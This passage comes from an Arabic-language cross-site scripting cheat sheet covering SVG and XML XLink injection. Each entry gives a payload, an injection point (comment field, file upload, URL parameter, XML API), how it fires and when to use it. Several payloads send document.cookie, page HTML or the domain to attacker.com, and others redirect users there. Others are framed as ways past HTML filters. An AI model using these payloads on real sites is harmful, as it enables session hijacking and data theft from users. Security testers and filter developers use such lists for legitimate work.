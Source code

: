   - **كيف يعمل**: يرسل عنوان URL عند تمرير المؤشر.
  - **متى يُستخدم؟**: لتتبع حركة المستخدم.
- **الحقن**: `<svg><rect onload="alert('XSS')"></rect></svg>`
  - **الإدخال**: أدخل في حقل تعليق: `<svg><rect onload="alert('XSS')"></rect></svg>`
  - **كيف يعمل**: ينفذ تنبيهًا عند تحميل عنصر داخل SVG.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر `<svg>` مباشرة.

#### ج. حقن SVG باستخدام XLink
{ #XSS_Idea_for_SVG_tag / #ideas_for_url  }
استخدام روابط XLink في SVG لتنفيذ JavaScript.
- **الحقن**: `<svg><a xlink:href="javascript:alert('XSS')"><text>Click</text></a></svg>`
  - **الإدخال**: أدخل في حقل نصي: `<svg><a xlink:href="javascript:alert('XSS')"><text>Click</text></a></svg>`
  - **كيف يعمل**: ينفذ تنبيهًا عند النقر على النص.
  - **متى يُستخدم؟**: لتجاوز فلاتر HTML.
- **الحقن**: `<svg><a xlink:href="javascript:fetch('http://attacker.com/log?c='+document.cookie)"><text>Click</text></a></svg>`
  - **الإدخال**: قم بتحميل ملف SVG يحتوي على: `<svg><a xlink:href="javascript:fetch('http://attacker.com/log?c='+document.cookie)"><text>Click</text></a></svg>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند النقر.
  - **متى يُستخدم؟**: لسرقة البيانات عند التفاعل.
- **الحقن**: `<svg><image xlink:href="javascript:alert('XSS')"></image></svg>`
  - **الإدخال**: أدخل في وصف: `<svg><image xlink:href="javascript:alert('XSS')"></image></svg>`
  - **كيف يعمل**: ينفذ تنبيهًا عند تحميل الصورة.
  - **متى يُستخدم؟**: لتجاوز قيود `<a>`.
- **الحقن**: `<svg><a xlink:href="javascript:document.location='http://attacker.com'"><text>Click</text></a></svg>`
  - **الإدخال**: `https://example.com/?data=<svg><a xlink:href="javascript:document.location='http://attacker.com'"><text>Click</text></a></svg>`
  - **كيف يعمل**: يعيد توجيه المستخدم عند النقر.
  - **متى يُستخدم؟**: لإعادة التوجيه.
- **الحقن**: `<svg><a xlink:href="javascript:fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})"><text>Click</text></a></svg>`
  - **الإدخال**: أدخل في حقل تعليق: `<svg><a xlink:href="javascript:fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})"><text>Click</text></a></svg>`
  - **كيف يعمل**: يرسل محتوى الصفحة عند النقر.
  - **متى يُستخدم؟**: لاستخراج محتوى DOM.

#### د. حقن XML باستخدام XLink
{ #XSS_idea_XML /   #ideas_for_url }
إدراج JavaScript عبر روابط XLink في XML.
- **الحقن**: `<root><a xlink:href="javascript:alert('XSS')">Click</a></root>`
  - **الإدخال**: أرسل عبر طلب POST إلى API: `<root><a xlink:href="javascript:alert('XSS')">Click</a></root>`
  - **كيف يعمل**: ينفذ تنبيهًا عند النقر إذا عُرض الـ XML في المتصفح.
  - **متى يُستخدم؟**: لاختبار واجهات API XML.
- **الحقن**: `<root><a xlink:href="javascript:fetch('http://attacker.com/log?c='+document.cookie)">Click</a></root>`
  - **الإدخال**: أدخل في حقل يعالج XML: `<root><a xlink:href="javascript:fetch('http://attacker.com/log?c='+document.cookie)">Click</a></root>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند النقر.
  - **متى يُستخدم؟**: لسرقة البيانات.
- **الحقن**: `<root><element xlink:href="javascript:document.location='http://attacker.com'">Click</element></root>`
  - **الإدخال**: أرسل عبر API: `<root><element xlink:href="javascript:document.location='http://attacker.com'">Click</element></root>`
  - **كيف يعمل**: يعيد توجيه المستخدم عند النقر.
  - **متى يُستخدم؟**: لإعادة التوجيه.
- **الحقن**: `<root><a xlink:href="javascript:new Image().src='http://attacker.com/log?d='+document.domain">Click</a></root>`
  - **الإدخال**: أدخل في حقل XML: `<root><a xlink:href="javascript:new Image().src='http://attacker.com/log?d='+document.domain">Click</a></root>`
  - **كيف يعمل**: يرسل النطاق عند النقر.
  - **متى يُستخدم؟**: لتأكيد سياق التنفيذ.